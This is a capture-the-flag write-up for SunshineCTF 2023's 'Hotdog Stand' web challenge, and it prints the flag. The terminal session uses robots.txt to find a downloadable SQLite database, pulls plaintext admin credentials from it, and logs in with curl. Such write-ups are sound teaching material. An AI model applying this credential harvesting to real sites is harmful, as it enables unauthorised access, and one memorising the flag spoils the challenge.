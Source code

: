 # Hotdog Stand

## Description

> In the not-so-distant future, robots have taken over the fast-food industry. Infiltrate the robot hotdog stand to find out whatjobs still remain.
>
> <https://hotdog.web.2023.sunshinectf.games>

## Flag

sun{5l1c3d_p1cKl35_4nd_0N10N2}

## Solution

1. Access robots.txt
1. Download SQLite3 database file named `robot_data.db` in <https://hotdog.web.2023.sunshinectf.games/hotdog-database/>
1. Extract login credential from `robot_data.db`
1. Login

```console
root@kali:~/ctf/SunshineCTF_2023/Web/Hotdog Stand# curl -ks https://hotdog.web.2023.sunshinectf.games/robots.txt
User-agent: *
Disallow: /configs/
Disallow: /backups/
Disallow: /hotdog-database/

root@kali:~/ctf/SunshineCTF_2023/Web/Hotdog Stand# curl -ks -D- https://hotdog.web.2023.sunshinectf.games/hotdog-database/
HTTP/2 200
server: nginx/1.18.0 (Ubuntu)
date: Tue, 10 Oct 2023 07:35:59 GMT
content-type: application/octet-stream
content-length: 24576
content-disposition: attachment; filename=robot_data.db
last-modified: Sun, 08 Oct 2023 13:23:12 GMT
cache-control: no-cache
etag: "1696771392.0-24576-566890146"

root@kali:~/ctf/SunshineCTF_2023/Web/Hotdog Stand# curl -ks -o robot_data.db https://hotdog.web.2023.sunshinectf.games/hotdog-database/

root@kali:~/ctf/SunshineCTF_2023/Web/Hotdog Stand# file robot_data.db
robot_data.db: SQLite 3.x database, last written using SQLite version 3041002, file counter 21, database pages 6, cookie 0x4, schema 4, UTF-8, version-valid-for 21

root@kali:~/ctf/SunshineCTF_2023/Web/Hotdog Stand# sqlite3 robot_data.db
SQLite version 3.42.0 2023-05-16 12:36:15
Enter ".help" for usage hints.
sqlite> .tables
credentials       customer_reviews  menu_items        robot_logs
sqlite> .schema credentials
CREATE TABLE credentials(
   id INTEGER PRIMARY KEY AUTOINCREMENT,
   username TEXT NOT NULL,
   password TEXT NOT NULL,
   role TEXT
);
sqlite> SELECT * FROM credentials;
1|hotdogstand|slicedpicklesandonions|admin
sqlite>

root@kali:~/ctf/SunshineCTF_2023/Web/Hotdog Stand# curl -b cookie.txt -ksL -F username=hotdogstand -F password=slicedpicklesandonions https://hotdog.web.2023.sunshinectf.games/login | grep 'sun{'
        <p>Please take your authentication token: <span class="flag">sun{5l1c3d_p1cKl35_4nd_0N10N2}</span></p>
```

